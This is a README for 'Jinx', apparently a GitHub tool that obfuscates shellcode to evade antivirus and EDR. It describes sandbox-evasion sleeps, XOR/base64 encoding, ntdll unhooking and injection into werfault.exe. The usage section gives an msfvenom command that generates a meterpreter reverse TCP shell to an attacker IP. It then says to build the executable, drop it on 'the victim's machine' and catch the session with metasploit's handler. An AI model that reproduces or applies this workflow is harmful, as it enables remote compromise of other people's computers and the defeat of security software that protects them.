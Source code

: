 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

## Features
- Custom Sleep Function - to bypass sandbox
- Obfuscation - base64 encoding and xor encryption with randomly generated key
- DLL Unhooking - full unhook of ntdll.dll
- Process Injection - injecting the payload to werfault.exe

## Requirements
Jinx requires [Python3](https://www.python.org/) and a C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/)).

## Usage
In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:
```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337 and on the victim's machine execute Jinx.

## Authors and acknowledgment
[RonKon](https://github.com/RonKonis) - Development
<br>
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
